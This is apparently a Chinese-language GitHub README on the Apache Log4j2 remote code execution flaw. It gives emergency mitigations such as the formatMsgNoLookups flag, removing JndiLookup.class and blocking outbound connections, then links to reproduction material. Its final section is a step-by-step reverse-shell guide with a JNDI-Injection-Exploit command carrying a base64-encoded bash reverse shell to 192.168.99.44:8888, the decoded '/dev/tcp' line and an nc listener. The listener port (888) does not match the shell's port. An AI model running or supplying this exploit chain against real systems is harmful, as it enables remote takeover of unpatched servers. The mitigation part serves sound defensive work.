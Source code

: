 # Apache Log4j 2 
Apache log4j2 开源日志组件远程代码执行

> 攻击者通过构造恶意请求，触发服务器log4j 2 日志组件的远程代码执行漏洞。漏洞无需特殊配置，经验证，最新版的补丁可以防护此问题

[官方最新补丁： log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

## 紧急处置方案
1. 2.10 or 以上：添加环境变量  LOG4J_FORMAT_MSG_NO_LOOKUPS="true" 或 修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
2. 2.7 or 以上：log4j config file 中用%m(nolookups) 代替 %m 
3. 2.0-beta9 or 以上: 删除jar 包中的org/apache/logging/log4j/core/lookup/JndiLookup.class
4. 通过防火墙自定义规则，限制`jndi` 、`ldap`、`rmi` 等恶意payload
5. 漏洞探测大多采用dnslog 等带外方式，可以禁掉服务器主动外联权限

## 漏洞复现
[详细复现步骤参考](https://github.com/dbgee/fastjson-rce)   ，与fastjson 的复现一致，只是使用的pom 文件不同而已

* 需要注意2.14.1 不能稳定复现，建议采用2.8.x 版本

## 环境下载
[log4j2_rce-0.0.1.jar](https://github.com/dbgee/log4j2_rce/releases/tag/0.0.1) 

## 反弹shell 指引
1. 下载命令执行工具，也可以编译Exploit.java 将计算器换成Linux反弹代码，这里为了方便直接使用 [JNDI-Injection-Exploit-1.0.jar](./shell/JNDI-Injection-Exploit-1.0.jar)
2. 开启利用工具 `java -jar JNDI-Injection-Exploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguOTkuNDQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A  "192.168.99.44"`
    1. 命令说明：-C  指定要执行的命令，-A 指定监听端口所在IP（一般为本机IP）
    2. base64 编码部分为Linux 反弹shell  `bash -i > /dev/tcp/192.168.99.44/8888 0>&1`
    3. 将利用工具生成的jndi links 放入postman payload 中
3. 本地开启nc 监听 `nc -Lvvp 888`
4. 发送payload 到目标服务器，反弹shell 成功
5. 利用过程截图: ![利用结果](./shell/shell.png)、![服务器端输出](./shell/output.png)

